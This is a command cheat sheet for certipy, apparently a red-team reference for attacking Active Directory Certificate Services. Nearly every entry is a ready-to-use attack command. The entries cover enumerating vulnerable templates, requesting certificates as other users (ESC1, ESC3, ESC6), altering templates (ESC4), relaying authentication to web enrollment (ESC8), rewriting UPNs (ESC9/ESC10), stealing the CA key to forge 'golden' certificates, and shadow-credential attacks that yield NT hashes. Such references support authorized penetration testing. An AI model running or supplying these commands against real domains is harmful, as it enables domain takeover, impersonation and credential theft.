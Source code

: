 # certipy

% adcs, certificate, pki, windows, Active directory, template, shadow credential

## enum -  list enabled certificate templates 
#plateform/linux #target/remote #cat/RECON
```
certipy find -enabled  -hide-admins -u <user>@<domain> -p '<password>' -dc-ip <dc-ip> [-stdout]
```

## enum - list enabled certificate templates (socks)
#plateform/linux #target/remote #cat/RECON
add CA to /etc/hosts
```
certipy find -enabled -hide-admins -u <user>@<domain> -p '<password>' -dc-ip <dc-ip> -ns <dc-ip> -dns-tcp [-stdout]
```

## enum - list vulnerable certificate templates 
#plateform/linux #target/remote #cat/RECON
```
certipy find -vulnerable -hide-admins -u <user>@<domain> -p '<password>' -dc-ip <dc-ip> [-stdout]
```

## enum - list vulnerable certificate templates (socks)
#plateform/linux #target/remote #cat/RECON
add CA to /etc/hosts
```
certipy find -vulnerable -hide-admins -u <user>@<domain> -p '<password>' -dc-ip <dc-ip> -ns <dc-ip> -dns-tcp [-stdout]
```

## enum - enumerate to bloodhound (socks)
```bash
certipy find -enabled  -u <user>@<domain> -p '<password>' -dc-ip <dc-ip> -ns <dc-ip> -dns-tcp  -old-bloodhound
```

## request certificate
#plateform/linux #target/remote #cat/ATTACK
```
certipy req -u <user>@<domain> -p '<password>' -target <ca-fqdn> -template <template> -ca <certificate-authority>
```

## extract cert from pfx
#plateform/linux #target/remote #cat/UTILS
```
certipy cert -pfx <pfx> -nokey -out <file>.crt -password <password|jubeaz>
```

## extract key from pfx
#plateform/linux #target/remote #cat/RECON
```
certipy cert -pfx <pfx> -nocert -out <file>.key -password <password|jubeaz>
```

## certipy - create pfx from cert
#plateform/linux #target/remote #cat/UTILS
```
certipy cert -key <key_file>  -cert <cert_file>  -export -out <pfx_file>
```

## certipy - authenticate with pfx certificate
#plateform/linux #target/remote #cat/CONNECT
```
certipy auth -pfx <pfx-file>  -domain <domain> -username <user> -dc-ip <ip>
```

## certipy - authenticate through LDAP (Schannel) with pfx certificate
#plateform/linux #target/remote #cat/CONNECT
```
certipy auth -pfx <pfx-file> -dc-ip <dc-ip> -ldap-shell
```

## certipy - Golden Certificate - steal CA certificate and private key
#plateform/linux #target/remote #cat/ATTACK
```
certipy ca -u <user>@<domain> -p '<password>' -backup -ca <certificate-authority> -target-ip <ca-ip>
```

## certipy - Golden Certificate - forge certificate
#plateform/linux #target/remote #cat/ATTACK
```
certipy forge -ca-pfx <pfx-file> -upn <user>@<domain> -crl ldap://<dc-ip>:389
```

## certipy - request certificate for another user - ESC1 - ESC6
#plateform/linux #target/remote #cat/ATTACK
```
certipy req -u <user>@<domain> -p '<password>' -target <ca-fqdn> -template <template> -ca <certificate-authority> -upn <targeted-user>@<domain>
```

## certipy - request certificate on behalf of with Certificate Request Agent certificate - ESC3
#plateform/linux #target/remote #cat/ATTACK
```
certipy req -u <user>@<domain> -p '<password>' -target <ca-fqdn> -template <template> -ca <certificate-authority> -on-behalf-of '<NetBIOS-domain-name>\<targeted-user>' -pfx <pfx-file>
```

## certipy - modify template in order to make it vulnerable to ESC1 - ESC4
#plateform/linux #target/remote #cat/ATTACK
```
certipy template -u <user>@<domain> -p '<password>' -template <template> -save-old
```

## certipy - Issue certificate for specific request id - ESC7
#plateform/linux #target/remote #cat/ATTACK
```
certipy ca -u <user>@<domain> -p '<password>' -ca <certificate-authority> -issue-request <csr-id>
```

## certipy - relay authentication to CA Web Enrollment - ESC8
#plateform/linux #target/remote #cat/ATTACK
```
certipy relay -ca <ca-fqdn>
```

## certipy - relay domain controller authentication to CA Web Enrollment - ESC8
#plateform/linux #target/remote #cat/ATTACK
```
certipy relay -ca <ca-fqdn> -template 'DomainController'
```

## certipy - Modify user upn to another one - ESC9 - ESC10
#plateform/linux #target/remote #cat/ATTACK
```
certipy account update -u <user>@<domain> -p '<password>' -user <targeted-user> -upn <administrator-user>
```

## Get NT hash - Shadow Credential
#plateform/linux #target/remote #cat/ATTACK
Full Chain exploit of Shadow Credential: Create a Key Credential, Authenticate to get NT hash and TGT, and remove the Key Credential
```
certipy shadow auto -u <user>@<domain> -p '<password>' -account <targeted-user>  -dc-ip <dc-ip> -target-ip  <dc-ip> -target <dc-ip> -dns-tcp
```